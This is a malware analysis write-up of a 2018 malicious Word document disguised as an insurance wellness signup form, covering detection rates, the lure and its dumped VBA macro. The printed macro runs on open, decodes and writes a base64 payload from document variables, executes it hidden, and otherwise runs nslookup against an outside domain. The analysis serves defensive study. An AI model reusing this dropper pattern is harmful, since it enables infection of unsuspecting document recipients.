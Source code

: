 ### VT Detections

As of the VT scan done on 3 August 2018, only 13 out of 58 engines
detect this document as malicious:

![](/img/1533606739324.png)

### Presentation / Lure

The document presents as a signup form for an insurance health and
wellness program:

![](/img/Penn-Document.png)

As is typical of malicious documents using VBA, it has text indicating
that you'll need to enable macros.

Once macros are enabled, a message box pops up:

![](/img/Penn-msgbox.png){width="500"}

## VBA

### Raw

On dumping the VBA, we'll see it's pretty simple, but that the
interesting content is all held in Word document variables. These
strings are accessed using `ActiveDocument.Variables(VARIABLE_NAME)`.



    Sub AutoOpen()
        WordUpdateCheck
    End Sub

    Sub Document_Open()
        WordUpdateCheck
    End Sub


    Private Function DecodeBase64(ByVal strData As String) As String
    ...snip...
    End Function

    Sub WordUpdateCheck()

        Dim helper, fso, file, folderPath, filePath, version
        Set helper = CreateObject(ActiveDocument.Variables("Northern") & ActiveDocument.Variables("Beach") & ActiveDocument.Variables("Cali"))
        Set fso = CreateObject("Scripting.FileSystemObject")
        folderPath = helper.ExpandEnvironmentStrings(ActiveDocument.Variables("Stores")) & ActiveDocument.Variables("Retail") & ActiveDocument.Variables("LAX")
        If (fso.FolderExists(folderPath)) Then
            filePath = helper.ExpandEnvironmentStrings(ActiveDocument.Variables("Shoes")) & ActiveDocument.Variables("Bank") & ActiveDocument.Variables("Revenue") & ActiveDocument.Variables("2018")
            If Not (fso.FileExists(filePath)) Then
                Set file = fso.CreateTextFile(filePath, True)
                file.Write DecodeBase64(ActiveDocument.Variables("Fun")) & vbCrLf
                file.Close
                helper.Run folderPath & ActiveDocument.Variables("Shrink") & ActiveDocument.Variables("Running") & " " & filePath, 0, False
                MsgBox ActiveDocument.Variables("Panic"), vbExclamation, ActiveDocument.Variables("Waves")
            End If
        Else
            helper.Run "nslookup.exe pwdas71.healthservices-dns.com"
        End If
    End Sub
